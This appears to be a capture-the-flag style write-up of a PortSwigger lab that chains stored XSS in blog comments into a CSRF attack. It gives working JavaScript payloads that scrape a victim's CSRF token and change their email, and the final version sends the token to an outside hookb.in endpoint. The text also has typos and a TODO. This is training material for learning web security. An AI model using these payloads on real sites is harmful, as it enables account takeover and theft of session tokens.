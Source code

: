 # Exploiting XSS to perform CSRF

## Description

Link : https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf

>![](imgs/20210701-200938.png)


## Writeup

We know that the vulnerability is in the blog comments.  

First thing we want to do is find the XSS and trigger it

We log in as the **wiener** user, as suggested in the description. 

The following page is served to us:

>![](imgs/20210701-201401.png)

The final goal of the challenge is to change the email address of another user. So, what we can do now is to intercept our `update email` request so that we know how the update mechanism works.

We use Burp for this purpose. We update the email to luca@normal-user.net and this is the HTTP request we intercepted:

>![](imgs/20210701-202035.png)


By changing the value of the `email` POST variable we can change our own email. Moreover we can see that the page has a CSRF token.

TODO: What does this token do?


looking for the XSS we can try to trivial `<script>` tag in the comment and name section:

>![](imgs/20210701-203757.png)

And we can identify the XSS in the _comments_ input field

>![](imgs/20210701-203902.png)


We can now use it to perform a CSRF attack and change the password of the user that will visit the page.

Since the mail is changed with a POST request, we need to trick the user to perform a POST request too. We can do it by creating a form


```
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

So we try this 

>![](imgs/20210701-204910.png)

But it doesn't trigger because it says that the `csrt` is missing. However given that we can execute javascript, we can crape the page to dynamically get the csrt of the victim and submit it together with the email. It can be easily done by submitting a POST request with javascript to the change-email endpoint:




```
document.getElementsByName('csrf')[0].value
```

By putting all together


```
</p>
      <script>
      function injectCSRF() {
      document.getElementById('exploit').setAttribute('value', 'hello');
      }
    </script>
    
    <form onsubmit="injectCSRF()" action="https://ac5e1f251f58e66e80dd3bdd0090000f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned@admin.net" />
      <input id="exploit" type="hidden" name="csrf" value="scrape token here" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
<p>
```

We try

```
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://ac5e1f251f58e66e80dd3bdd0090000f.web-security-academy.net/my-account/change-email', true);
xhr.setRequestHeader('Content-Type', 'application/json');
xhr.send(JSON.stringify({
    email: 'admin@gmail.com',
    csrf: 'hello'
}));
</script>
```

The POST data we generate in this way is in JSON format 

>![](imgs/20210703-181614.png)

However the format of the POST data is not as the server expects and the `csrf` token is not detected.


We need to 

new URLSearchParams({
    'email': 'admin@gmail.com',
    'csrf': 'hello'
    })


```
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://ac5e1f251f58e66e80dd3bdd0090000f.web-security-academy.net/my-account/change-email', true);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send(new URLSearchParams({
    'email': 'admin@gmail.com',
    'csrf': document.getElementsByName('csrf')[0].value
    })
    );
</script>
```

But this doesn't work. The `crsf` token is not scraped as `document.getElementsByName('csrf')[0].value` returns null. 
The function returns null because the csrf token gets assigned to the user when he visites the `my-account` page. So, we first need to issue a request to `/my-account` in order to scrape the csrf token from the response and being able to issue the `change email` request.



```javascript
<script>
var xhr = new XMLHttpRequest();
xhr.onload = function() { 
        var token = this.response.getElementsByName('csrf')[0].value;
	xhr.open('POST', '/my-account/change-email', true);
	xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
	xhr.send(new URLSearchParams({
	    'email': 'admin@gmail.com',
	    'csrf': token
	    })
	    );
};
xhr.open('GET', '/my-account', true);
xhr.responseType = "document";
xhr.send();

</script>
```
We use `this` to refer to `xhr` becasue, when `this` is used in the context of a DOM event handler, it is set to the element on which the listener is placed (`xhr` in this case).

It works.




```javascript
<script>
var xhr = new XMLHttpRequest();
xhr.onload = function() { 
        var token = this.response.getElementsByName('csrf')[0].value;
	xhr.open('POST', 'https://hookb.in/lJJ7LdeV67urXXZWOOOQ/ciao', true);
	xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
	xhr.send(new URLSearchParams({
	    'email': 'admin@gmail.com',
	    'csrf': token
	    })
	    );
};
xhr.open('GET', 'https://hookb.in/lJJ7LdeV67urXXZWOOOQ', true);
xhr.responseType = "document";
xhr.send();

</script>
```






